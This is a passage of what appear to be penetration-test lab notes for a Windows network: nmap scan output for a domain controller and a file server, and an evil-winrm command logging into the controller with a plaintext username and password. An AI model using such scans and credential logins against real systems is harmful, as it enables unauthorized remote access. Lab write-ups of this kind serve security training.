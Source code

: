 ```bash
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
60998/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
61003/tcp open  msrpc         Microsoft Windows RPC
61014/tcp open  msrpc         Microsoft Windows RPC
61029/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.11.X (85%)
OS CPE: cpe:/o:ibm:zos:1.11
Aggressive OS guesses: IBM z/OS 1.11 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:9e:c5:cb (VMware)
| smb2-time: 
|   date: 2024-05-18T11:25:42
|_  start_date: N/A
|_clock-skew: 1s
```

```bash
evil-winrm -i 172.16.220.10 -u 'leon' -p 'rabbit:)'
```

# 172.16.184.11 - FILES02 {pwned:local&proof}

```bash
nmap -sC -sV -O -p- 172.16.184.11
```

```bash
Nmap scan report for 172.16.184.11 (172.16.184.11)
Host is up (0.023s latency).
Not shown: 65523 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```